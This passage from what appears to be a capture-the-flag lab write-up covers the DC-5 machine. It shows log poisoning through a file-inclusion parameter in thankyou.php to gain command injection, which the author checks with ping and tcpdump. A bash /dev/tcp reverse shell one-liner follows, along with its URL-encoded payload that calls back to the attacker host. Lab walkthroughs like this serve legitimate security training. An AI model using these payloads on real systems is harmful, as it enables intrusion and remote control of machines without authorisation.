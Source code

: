 We wrote a command injection vulnerable code that will be stored inside the log file. During the opening of the file, we should get command execution. Now, let's verify the command injection.

```bash
curl [http://192.168.197.133/thankyou.php?file=/var/log/nginx/access.log&cmd=ping](http://192.168.197.133/thankyou.php?file=/var/log/nginx/access.log&cmd=ping) 192.168.197.131
```

We made a curl request with our desired URL. Here, 'file=/var/log/nginx/access.log' reads the log file, and 'cmd=ping 192.168.197.131' is the command for pinging my local machine, which will verify the command injection. To confirm, we can run a listener on our attack box.

```bash
sudo tcpdump -i eth0 -c5 icmp

Response
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
03:49:14.643611 IP 192.168.197.133 > 192.168.197.131: ICMP echo request, id 1799, seq 9817, length 64
03:49:14.643690 IP 192.168.197.131 > 192.168.197.133: ICMP echo reply, id 1799, seq 9817, length 64
03:49:15.285594 IP 192.168.197.133 > 192.168.197.131: ICMP echo request, id 2258, seq 400, length 64
03:49:15.285628 IP 192.168.197.131 > 192.168.197.133: ICMP echo reply, id 2258, seq 400, length 64
03:49:15.645248 IP 192.168.197.133 > 192.168.197.131: ICMP echo request, id 1799, seq 9818, length 64
5 packets captured
6 packets received by filter
0 packets dropped by kernel
```

We received an ICMP request back, which means the command execution was successful. Now, we can attempt to establish a reverse shell.

# Initial Foothold

Here, we use a one-liner bash reverse shell. We need to encode the shell into URL encoding format to avoid bad characters since we are using a browser.

```bash
Reverse shell
bash -c 'bash -i >& /dev/tcp/192.168.197.131/9001 0>&1'

Full Payload
[http://192.168.197.133/thankyou.php?file=/var/log/nginx/access.log&cmd=bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F192.168.197.131%2F9001 0>%261'](http://192.168.197.133/thankyou.php?file=/var/log/nginx/access.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.197.131%2F9001%200%3E%261%27)
```

![](/assets/images/dc-5/6.png)
